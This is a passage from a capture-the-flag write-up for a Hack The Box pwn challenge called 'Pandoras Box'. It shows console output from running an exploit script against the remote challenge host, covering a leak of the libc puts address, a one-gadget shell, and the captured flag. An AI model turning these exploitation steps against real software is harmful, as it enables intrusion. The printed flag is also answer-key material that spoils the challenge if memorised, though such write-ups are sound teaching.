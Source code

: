 
Run it [solve.py](./solve.py):
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/pandoras_box]
└──╼ $ python3 solve.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/pandoras_box/challenge/pb'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/pandoras_box/challenge/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 165.232.98.59 on port 32729: Done
[▖] Step 1: Leak libc address, print the address of puts
        ◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙
        ▣                 ▣
        ▣       ◊◊        ▣
        ▣ ◊◊◊◊◊◊◊◊◊◊◊◊◊◊◊ ▣
        ▣       ◊◊        ▣
        ▣                 ▣
        ◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙◙

This is one of Pandora's mythical boxes!

Will you open it or Return it to the Library for analysis?

1. Open.
2. Return.

>>
[+] Step 1: Leak libc address, print the address of puts: Done
Insert location of the library: 

[*] Leaked puts: 0x7f9dc2e6ded0
[>] Step 2: use onegadget to get shell
This is one of Pandora's mythical boxes!

Will you open it or Return it to the Library for analysis?

1. Open.
2. Return.

>>
 
Insert location of the library: 
[*] Switching to interactive mode

We will deliver the mythical box to the Library for analysis, thank you!

$ ls
flag.txt
glibc
pb
$ cat flag.txt
HTB{r3turn_2_P4nd0r4?!}
```

And we get the flag `HTB{r3turn_2_P4nd0r4?!}`.